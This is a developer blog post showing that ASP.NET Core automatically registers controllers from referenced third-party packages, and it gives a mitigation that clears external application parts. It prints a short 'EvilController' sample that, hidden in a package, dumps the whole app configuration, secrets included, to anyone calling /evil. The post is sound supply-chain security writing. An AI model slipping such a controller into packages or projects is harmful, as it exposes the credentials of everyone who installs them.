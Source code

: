```yaml
---
layout: post
title:  "ASP.NET Core ApplicationPart & EvilController 😱"
date:   2019-12-16 20:40:00 +0100
tags: [C#,.NET Core,ASP.NET Core]
author: Miňo Martiniak
---
```


Do you blindly trust third-party libraries?
What if this package contains e.g. following code and you reference it in your ASP.NET Core project?

```Csharp
[ApiController]
[Route("[controller]")]
public class EvilController : ControllerBase
{
    [HttpGet]
    public IEnumerable<KeyValuePair<string, string>> Get()
    {
        var configuration = HttpContext.RequestServices.GetService(typeof(IConfiguration)) as IConfiguration;

        return configuration.AsEnumerable().OrderBy(p => p.Key);
    }
}
```

If autor (attacker) calls `your-site-url/evil`, than can get the following result:

![](https://gist.github.com/Burgyn/1fafbffcb737b4a73341ae2f7dd1626b/raw/ec45967614cb362c41aa4acd23afed8221e03d2a/EvilOutput.png)

> Of course the code in this controller can be more dangerous.

Do not believe? Try this [demo](https://github.com/Burgyn/Sample.EvilControllers).

## Surprising?

At a first glance, yes. Documentation and blog posts say that if we want to add controllers from external assemblies, we need to add `ApplicationPart` by calling `mvcBuilder.AddApplicationPart(assembly);`.
But we do not call anything like this. So why is external `EvilController` discovered?

Answer is [AspNet Core build tooling](https://github.com/aspnet/AspNetCore-Tooling/pull/598) and [ApplicationPartAttribute](https://docs.microsoft.com/en-us/dotnet/api/microsoft.aspnetcore.mvc.applicationparts.applicationpartattribute?view=aspnetcore-3.0).

_AspNet Core build tooling_ discovers dependencies that reference MVC features _(in dependencies tree)_ and add them as `ApplicationPartAttribute` to your assembly _(in build time)_. When _ASP.NET Core_ application starts, it use the [ApplicationPartManger](https://github.com/aspnet/AspNetCore/blob/master/src/Mvc/Mvc.Core/src/ApplicationParts/ApplicationPartManager.cs) for adding external assembly as `ApplicationParts`. By default, `ApplicationPartManager` searches for `ApplicationPartAttribute`. That's why the package with `EvilController` is added as an `ApplicationPart` to your application.


## How to avoid it?

Do not use suspicious packages! 😊

Okay, but what if I don't want to detail study the external library and want to use it anyway?

In this case, you can remove external application parts from your application. For example:

```CSharp
public void ConfigureServices(IServiceCollection services)
{
    services.AddControllers()
        .ConfigureApplicationPartManager(o =>
        {
            var entryAssembly = Assembly.GetEntryAssembly();
            o.ApplicationParts.Clear();
            o.ApplicationParts.Add(new AssemblyPart(entryAssembly));
        });
}
```

## References

- [More info about ApplicationPart](https://docs.microsoft.com/en-us/aspnet/core/mvc/advanced/app-parts?view=aspnetcore-3.1)